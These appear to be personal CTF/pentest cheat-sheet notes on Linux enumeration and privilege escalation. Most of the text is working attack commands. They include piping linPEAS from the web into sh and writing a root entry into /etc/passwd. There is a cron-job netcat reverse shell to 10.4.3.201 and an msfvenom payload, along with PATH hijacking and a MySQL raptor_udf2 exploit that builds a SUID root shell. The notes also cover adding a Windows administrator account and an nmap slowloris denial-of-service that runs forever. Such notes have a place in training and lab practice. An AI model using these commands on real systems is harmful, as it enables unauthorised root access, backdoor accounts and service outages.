 
# Enumerate

On Linux ideally we would be looking for opportunities to gain access to a user account. 
SSH keys stored at `/home/<user>/.ssh` 

In CTFs it's also not infrequent to find credentials lying around somewhere on the box. 

Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

shows current users permissions
`sudo -l

first ssh into ip THEN
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```


## LinEnum

[LinEnum GitHub](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

There are two ways to get LinEnum on the target machine. 

1. Go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using **"python3 -m http.server 8000"** . Then using **"wget"** on the target machine, and your local IP, you can grab the file from your local machine. Then make the file executable using the command **"chmod +x FILENAME.sh"**.
2. if you have sufficient permissions, copy the raw LinEnum code from your local machine and paste it into a new file on the target, using Vi or Nano. Once you've done this, you can save the file with the **".sh"** extension. Then make the file executable using the command **"chmod +x FILENAME.sh"**.

Start a server from the directory that contains LinEnum.sh
```bash
(raz㉿kali)-[~/LinEnum]
└─$ python -m http.server 9000
```
1. from the target use `wget http://10.4.3.201:9000/LinEnum.sh
3. `chmod +x LinEnum.sh
4. Run `./LinEnum.sh` to begin scan

##RootHelper


The RootHelper/Linux Smart Enumeration module is a LinEnum fork with a heavy focus on privilege escalation.
https://github.com/NullArray/RootHelper

---
# Priv Esc

## Exploiting SUID Files

SUID files: Look like
`-rwsr-xr-x
Notice the ***'S'***

ctrl+F to find this part of your LinEnum scan
```
[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 11 2016 /bin/fusermount
-rwsr-xr-x 1 root root 8392 Jun 4 2019 /home/user5/script
-rwsr-xr-x 1 root root 8392 Jun 4 2019 /home/user3/shell
```
OR
Use this command to search the system for SUID/GUID files:
```
find / -perm -u=s -type f 2>/dev/null
```



## Exploiting a writable /etc/passwd

example entry of a user
`test:x:0:0:root:/root:/bin/bash

1. create a compliant password hash to add to our new user
`openssl passwd -1 -salt [salt] [password]
2. create a user entry to add onto /etc/passwd
```
nano /etc/passwd
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:/root:/bin/bash"
```
3. switch to your new user and enter passwd
`su new`
4. you should have root
`sudo -i


## Escaping Vi Editor

use `sudo -l` to discover if that user can run any binaries with root privileges

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions

1. open vi as root, by typing `sudo vi`
2. type `:!sh` to open a shell!



## Exploiting Crontab

view scheduled cron jobs
`cat /etc/crontab

crontabs have the following format:
`<ID> <minute> <hour> <day of month> <month> <day of week> <user> <command>

1. create a reverse shell payload for the cronjob to run 
`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
2. replace the binary with the payload
`echo "mkfifo /tmp/ujlow; nc 10.4.3.201 8888 0</tmp/ujlow | /bin/sh >/tmp/ujlow 2>&1; rm /tmp/ujlow" > autoscript.sh`
3. start listener and wait for shell to land
`nc -lvnp 8888`



## Exploiting PATH Variable

view the Path of the relevant user `echo $PATH`

1. find a program that runs an SUID binary such as `ls
2. create an imitation executable
`cd /tmp`
`echo "/bin/bash" > ls`
`chmod +x ls`
3.  change the PATH variable, so that it points to the directory where we have our imitation **"ls"** stored
`export PATH=/tmp:$PATH`
4. run the script and you should have root
5. Once you’ve finished the exploit, you can exit out of root and use `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH` to reset the PATH variable back to default, letting you use `ls` again



## Exploit Services 

If MySQL service is running as root and the "root" user for the service does not have a password assigned We can use [raptor_udf2.c,v 1.1](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c)

Compiles exploit
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
```
Uses MYSQL to create a bash executable in the /tmp/ directory
```
use mysql;   
create table foo(line blob);   
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));   select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';   
create function do_system returns integer soname 'raptor_udf2.so';`

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
Exit out of the MYSQL shelll using `exit` then run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```




---
# Handy Nix Files

contains ssh configurations such as: PasswordAurhentication
	`etc/ssh/ssshd_config
A plain text file It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.
	`/etc/passwd` 

---
## Windows 

VNC servers, for example, frequently leave passwords in the registry stored in plaintext. 

Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  or `C:\xampp\FileZilla Server\FileZilla Server.xml`  
- These can be MD5 hashes or in plaintext, depending on the version.

Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

`net user <username> <password> /add`

`net localgroup administrators <username> /add`

---

# Now you're Here..

launche DOS attack using nmap scripts
`nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true

